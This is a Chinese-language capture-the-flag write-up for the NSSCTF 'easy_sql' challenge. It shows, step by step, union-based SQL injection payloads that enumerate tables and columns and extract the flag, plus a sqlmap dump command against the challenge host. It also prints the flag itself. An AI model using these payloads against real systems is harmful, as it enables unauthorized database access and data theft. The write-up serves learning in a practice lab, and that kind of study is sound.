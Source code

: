 ---

# easy_sql

**_sql 注入的题目，会做才算入门_**      
F12 查看网页源代码

```html
<title>参数是 wllm</title>
```

get 请求，参数为 wllm
输入`?wllm=1`,返回结果：

```
Your Login name:xxx
Your Password:yyy
```

**burpsuite**抓包，发送到**Repeater**模块进行下一步操作     
因为是 get 传参，所以**注意 URL 编码**，详情见**delete注入.md**

## 确认 sql 注入漏洞

输入一个单引号`?wllm='`,返回结果：

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '''' LIMIT 0,1' at line 1
```

报错啦 🥰，存在 sql 注入漏洞

## order by 确认查询字段数

```sql
# payload         # url编码            # 返回结果

1' order by 4#    1'+order+by+4%23     Unknown column '4' in 'order clause'

1' order by 3#    1'+order+by+3%23     Your Login name:xxx<br>Your Password:yyy
```

字段数为 3

## 寻找注入点

```sql
# payload                 # url编码                  # 返回结果
0' union select 1,2,3#    0'+union+select+1,2,3%23   Your Login name:2<br>Your Password:3
```

2、3 是注入点，尝试使用 union select 命令进行注入

- 这里需要注意**把 1 改成其他数字**，比如 0
- 因为输入只有两个数据，如果为 1，则输出`xxx`、`yyy`，即`Your Login name:xxx<br>Your Password:yyy`，后面的就没有了
- 改成`0`后，数据库找不到数据，`union`前的命令没有输出，而`union`后的我们想要的命令就可以执行输出了

## union select 命令进行注入

### 获取数据库名和表名

```sql
# payload
0' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()#
# url编码
0'+union+select+1,database(),group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()%23
# 返回结果
Your Login name:test_db<br>Your Password:test_tb,users
```

拿到数据库名为`test_db`，表名为`test_tb,users`

### 获取列名

```sql
# payload
0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='test_tb'#
# 返回结果：Your Login name:2<br>Your Password:id,flag
0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'#
# 返回结果：Your Login name:2<br>Your Password:USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password
```

找到`flag`了，在`test_tb`表中

### 获取 flag

```sql
# payload
0' union select 1,2,flag from test_db.test_tb#
# 返回结果：Your Login name:2<br>Your Password:NSSCTF{8f8fe0a0-6e9f-4d5e-ae9c-2b7049afa57b}
```

得到 flag：`NSSCTF{8f8fe0a0-6e9f-4d5e-ae9c-2b7049afa57b}`
# 另一种方法
***sqlmap***秒了
```batch
python sqlmap.py -u http://node4.anna.nssctf.cn:28566//?wllm=1 --columns --dump
```
在`C:\Users\Administrator\AppData\Local\sqlmap\output\node4.anna.nssctf.cn\dump\test_db\test_tb.csv`找到`flag`      
有难度的题目**sqlmap**可能扫不出来      
但还是要养成做题先扫一扫的好习惯        
万一直接出来了呢🤗